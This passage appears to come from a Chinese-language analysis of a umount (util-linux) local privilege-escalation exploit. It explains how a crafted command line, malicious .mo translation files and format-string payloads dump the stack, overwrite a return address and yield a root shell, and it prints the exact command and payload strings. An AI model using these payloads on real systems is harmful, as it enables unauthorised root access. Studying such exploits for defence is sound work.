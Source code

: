 ```
"        (In some cases useful info about processes that\n"
"         use the device is found by lsof(8) or fuser(1).)"
msgstr "5678"
invincible@ubuntu:~/Desktop/test$ 

```



**提权阶段(attemptEscalation)**

- 准备工作

    - 创建用于和子进程通信的pipe用于读取子进程stdout和stderr

    - fork出子进程(下文称`umount进程`)，在子进程中设置pipe，切换到`us_proc进程`的工作目录，execve执行umount，具体执行命令：

```
AANGUAGE=X.X AANGUAGE=X.X (省略...共255次) LC_ALL=C.UTF-8 /bin/umount  /run /run /run /run /run /run /run /run /run /run down LABEL=78 LABEL=789 LABEL=789a LABEL=789ab LABEL=789abc LABEL=789abcd LABEL=789abcde LABEL=789abcdef LABEL=789abcdef0 LABEL=789abcdef0

```

- 开始提权

    - 第0步，父进程开始持续读取umount进程的输出，等待"AAAAAAAA"字符串的出现
    - 第1步，读取完整的栈内存数据，并开始解析，构造第二阶段的util-linx.mo文件内容并写入
    - 第2步，持续等待，直到在超时时间内，第二阶段util-linux.mo文件内容被umount读取
    - 第3步，读取剩下的umount输出防止其被阻塞
    - umount部分： 
        - umount启动后，解析符号链接down会触发越界写，使堆内存中存放的正常文件路径失效，迫使其加载位于相对目录C.UTF-8/LC_MESSAGES/中特制的util-linux.mo文件，其中的 poisonous format string 会将栈内存dump到stderr，同时还会通过指向环境变量的指针，将"AANGUAGE=X.X"修改为"LANGUAGE=X.X"
        - umount继续执行，由于环境变量被修改，这将使umount读取第二阶段的util-linux.mo文件(位于X.X/LC_MESSAGES目录下，由于该文件为fifo named pipe，所以这里umoun会阻塞等待其被写入数据)
        - umount进程在父进程第1步完成后恢复执行，读取第二阶段mo文件，其中的格式化字符串将会修改umount的返回地址，通过setdate+execl实现ROP，最终执行DATEMSK文件中的exp进程，利用umount提升exp可执行文件的权限后执行，生成root shell完成提权

- dump栈内存，修改restricted字段，修改AANGUAGE环境变量使用的格式化字符串

```
"AA%6$lnAAAAAA%016lx(省略... 共256个%016lx)%016lx%1$68hhx%256$hhn"
```

- 修改返回地址使用的格式化字符串

```
debian@debian:~/Desktop/work$ msgunfmt "/proc/1609/cwd/(unreachable)/tmp/__gconv_find_shlib/X.x/LC_MESSAGES/util-linux.mo" -o util-linux.po
debian@debian:~/Desktop/work$ cat util-linux.po 
msgid ""
msgstr ""
"Language: en\n"
"MIME-Version: 1.0\n"
"Content-Type: text/plain; charset=UTF-8\n"
"Content-Transfer-Encoding: 8bit\n"


msgid "%s: mountpoint not found"
msgstr ""
"%67$hn%71$hn%1$18640.18640s%68$hn%1$13200.13200s%64$hn%1$906.906s%66$hn%70$hn"
"%1$1567.1567s%65$hn%1$1.1s%69$hn%1$31222.31222s%1$5414.5414s%1$s%1$s%63$hn"
"%1$s%1$s%1$s%1$s%1$s%1$s%1$186.186s%37$hn-%35$lx-%37$lx-%62$lx-%63$lx-%64$lx-"
"%65$lx-%66$lx-%67$lx-%68$lx-%69$lx-%78$s\n"


msgid "%s: not mounted"
msgstr "BBBB5678%3$s\n"


```